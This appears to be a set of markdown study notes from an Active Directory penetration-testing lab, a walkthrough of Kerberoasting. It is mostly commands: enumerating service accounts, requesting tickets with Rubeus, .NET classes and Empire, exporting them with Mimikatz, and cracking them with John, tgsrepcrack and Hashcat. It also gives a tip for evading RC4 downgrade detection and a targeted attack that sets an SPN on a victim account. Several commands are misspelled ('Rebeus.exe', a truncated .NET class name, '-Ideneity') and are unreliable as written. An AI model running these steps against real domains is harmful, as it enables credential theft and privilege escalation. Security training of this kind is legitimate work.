

# Domain Privilege Escalation - Kerberoast

- [Domain Privilege Escalation - Kerberoast](#domain-privilege-escalation---kerberoast)
  - [Kerberoast](#kerberoast)
  - [Rubeus.exe](#rubeusexe)
  - [.NET classes](#net-classes)
  - [Empire](#empire)
  - [Password Cracking - John the Ripper](#password-cracking---john-the-ripper)
  - [Password Cracking - tgsrepcrack](#password-cracking---tgsrepcrack)
  - [Password Cracking - Hashcat](#password-cracking---hashcat)
  - [Targeted Kerberoasting - Set SPN](#targeted-kerberoasting---set-spn)

---

## Kerberoast

  


The main goal of **Kerberoast** is to __offline brute force service account passwords__.

The **Ticket-Granting Service (TGS)** has a server portion which is *encrypted with the password hash of the service account*. This makes it possible to request a ticket and do offline brute-force.

Since (non-machine) service account passwords are not frequently changed, this has become a very popular attack!

In the detection perspective, only Event ID 4769 will be logged on DC.

<br/>

To find user accounts used as Service Accounts:

- PowerView

```
Get-DomainUser -SPN
```

- AD Module

```
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

<br/>

---

## Rubeus.exe

To perform Kerberoast, we can make use of **Rubeus.exe**.

- https://github.com/GhostPack/Rubeus
- Compliied: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

<br/>

Note:
When you use Rebeus, always launch a new command prompt.

<br/>

List Kerberoast stat:

```
Rubeus.exe kerberoast /stats
```

<br/>

Request a TGS:

```
Rebeus.exe kerberoast /user:<serviceaccount> /simple
```

<br/>

To avoid detections based on Encryption Downgrade of Kerberos EType (used by likes of ATA - `0x17` = `rc4-hmac`), look for Kerberoastable accounts that only support `RC4_HMAC`.

```
Rebeus.exe kerberoast /stats /rc4opsec
```

```
Rebeus.exe kerberoast /user:<serviceaccount> /simple /rc4opsec
```

<br/>

Kerberoast all possible accounts:

```
Rebeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

<br/>

---

## .NET classes

Alternatively, we can request tickets using .NET classes:

```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberoasRequestorSecurityToken -ArgumentList "USSvc/serviceaccount"
```

<br/>

---

## Empire

Also you may use `Invoke-Kerberoast` from BC Empire (https://github.com/BC-SECURITY/Empire) for cracking with John or Hashcat:

```
. .\Invoke-Kerberoast.ps1

Invoke-Kerberoast -Ideneity <serviceaccount>
```

```
Invoke-Kerberoast -Identity <serviceaccount> -OutputFormat Hashcat | Select-Object Hash | Out-File -FilePath .\hashcat.txt -Width 8000
```

<br/>

---

## Password Cracking - John the Ripper

Crack ticket using JtR:

```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

<br/>

---

## Password Cracking - tgsrepcrack

To check if the ticket has been granted:

```
klist
```

<br/>

Export all tickets using Mimikatz:

```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

<br/>

Crack the Service Account password:

```
python.exe .\tgsrepcrack.py .\10k-worst-passwords.txt <kirbi_tgs_ticket>
```

---

## Password Cracking - Hashcat

Crack the password using hashcat.exe:

```
hashcat.exe -m 13100 -a 0 .\ToBeCracked\hashes.txt .\wordlists\10k-worst-pass.txt
```

<br/>

---

## Targeted Kerberoasting - Set SPN

If we have sufficient rights (`GenericAll` / `GenericWrite`), a target user's SPN can be set to anything (unique to the domain). We can then request a TGS without special privilege. The TGS can then be "Kerberoasted".

<br/>

Remember the permissions we enumerated for our current user **studentuserx**:

- PowerView

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "studentuser"}
```

<br/>

Then check if the user has SPN set:

- PowerView

```
Get-DomainUser -Identity support64user | Select ServicePrincipalName
```

- AD Module

```
Get-ADUser -Identity Support64User -Properties ServicePrincipalName | Select ServicePrincipalName
```

<br/>

Set SPN for the user. The SPN has to be unique in the domain.

- PowerView

```
Set-DomainObject -Identity support64user -Set @{serviceprincipalname='us/myspn64'}
```

- AD Module

```
Set-ADUser -Identity support64user -ServicePrincipalNames @{Add='us/myspn64'}
```

<br/>

Kerberoast the user finally:

```
Rubeus.exe kerberoast /outfile:kerberoast-hashes.txt
```

```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\kerberoast-hashes.txt
```

<br/>

